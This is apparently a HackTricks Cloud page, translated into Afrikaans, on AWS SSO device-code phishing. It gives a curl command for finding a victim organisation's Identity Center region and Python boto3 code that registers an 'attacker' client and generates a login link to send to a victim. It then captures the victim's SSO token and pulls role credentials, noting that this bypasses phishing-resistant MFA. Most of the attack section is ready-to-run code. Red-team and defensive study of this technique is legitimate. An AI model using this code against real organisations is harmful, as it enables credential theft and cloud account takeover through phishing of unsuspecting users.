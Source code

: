 # AWS - Identiteitsentrum & SSO Ongeauthentiseerde Enum

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Rooi Span Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Rooi Span Ekspert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Toestelkode Phishing

Aanvanklik voorgestel in [**hierdie blogpos**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), dit is moontlik om 'n **skakel** na 'n gebruiker te stuur wat AWS SSO gebruik, wat, as die **gebruiker aanvaar**, die aanvaller in staat sal stel om 'n **token te verklee as die gebruiker** en toegang te verkry tot al die rolle wat die gebruiker kan toegang hê in die **Identiteitsentrum**.

Om hierdie aanval uit te voer, is die vereistes:

* Die slagoffer moet **Identiteitsentrum** gebruik
* Die aanvaller moet die **subdomein** ken wat deur die slagoffer gebruik word `<victimsub>.awsapps.com/start`

Net met die vorige inligting, sal die **aanvaller in staat wees om 'n skakel na die gebruiker te stuur** wat, as dit **aangeneem** word, die **aanvaller toegang tot die AWS gebruiker** rekening sal gee.

### Aanval

1. **Vind die subdomein**

Die eerste stap van die aanvaller is om uit te vind watter subdomein die slagoffer maatskappy in hul Identiteitsentrum gebruik. Dit kan gedoen word deur **OSINT** of **raai + BF** aangesien die meeste maatskappye hul naam of 'n variasie van hul naam hier sal gebruik.

Met hierdie inligting is dit moontlik om die streek te kry waar die Identiteitsentrum geconfigureer is met:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genereer die skakel vir die slagoffer & Stuur dit**

Voer die volgende kode uit om 'n AWS SSO aanmeldskakel te genereer sodat die slagoffer kan autentiseer.\
Vir die demo, voer hierdie kode in 'n python-konsol uit en verlaat dit nie, aangesien jy later 'n paar voorwerpe nodig sal hê om die token te verkry:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Stuur die gegenereerde skakel na die slagoffer met jou wonderlike sosiale ingenieursvaardighede!

3. **Wag totdat die slagoffer dit aanvaar**

As die slagoffer **reeds in AWS ingelog** was, sal hy net die toestemmings moet aanvaar, as hy nie was nie, sal hy moet **inlog en dan die toestemmings aanvaar**.\
So lyk die prompt vandag:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Kry SSO-toegangstoken**

As die slagoffer die prompt aanvaar het, voer hierdie kode uit om **'n SSO-token te genereer wat die gebruiker naboots**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Die SSO toegangstoken is **geldigheid vir 8h**.

5. **Verpersoonlik die gebruiker**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing die onphishbare MFA

Dit is lekker om te weet dat die vorige aanval **werk selfs al word 'n "onphishbare MFA" (webAuth) gebruik**. Dit is omdat die vorige **werksaamheid nooit die gebruikte OAuth-domein verlaat nie**. Nie soos in ander phishing-aanvalle waar die gebruiker die aanmeld-domein moet vervang nie, in die geval is die toestelkode-werksaamheid voorberei sodat 'n **kode bekend is aan 'n toestel** en die gebruiker kan aanmeld selfs op 'n ander masjien. As die prompt aanvaar word, kan die toestel, net deur **die aanvanklike kode te ken**, **akkrediteer** vir die gebruiker.

Vir meer inligting oor hierdie [**kyk hierdie pos**](https://mjg59.dreamwidth.org/62175.html).

### Outomatiese Gereedskap

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Verwysings

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
